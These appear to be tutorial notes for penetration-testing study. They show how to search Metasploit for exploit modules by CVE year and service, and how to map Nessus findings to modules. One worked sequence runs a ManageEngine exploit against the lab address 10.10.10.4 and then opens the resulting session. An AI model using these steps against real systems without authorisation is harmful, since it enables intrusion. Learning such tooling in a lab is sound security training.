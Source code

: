 ```
vulns
```

When it comes down to searching for exploit modules within the MSF with a CVE code.

All we need to do is utilize or specify the CVE year.

So if the exploit was released or rather the vulnerability was disclosed in the year 2017, we can copy that.

```
search cve:2017 name:smb
```

```
search cve:2012 name:rdp
search MS12-020
```

```
search cve:2015 name:ManageEngine
use exploit/windows/http/manageengine_connectionid_write
show options
set RHOSTS 10.10.10.4
run
```

```
sessions
sessions 1
sysinfo
exit
```

Take a look at Nessus.

```
Filter->Metasploit Exploit Framework->is equal to->true
```

We can use the results here to identify the various exploits or the exploit modules we can utilize. 

For example, if we take a look at this RDP exploit.

```
Microsoft RDP RCE (CVE-2019-0708)(BlueKeep)(uncredentialed check)
```

```
back
search cve:2019 name:rdp
```

If you can find the exact module name: `Exploitable With`, you can then copy it directly from here.

```
Metasploit (MS12-020 Microsoft Remote Desktop Checker)
Metasploit (PHP CGI Argument Injection)
```

```
search PHP CGI Argument Injection
```
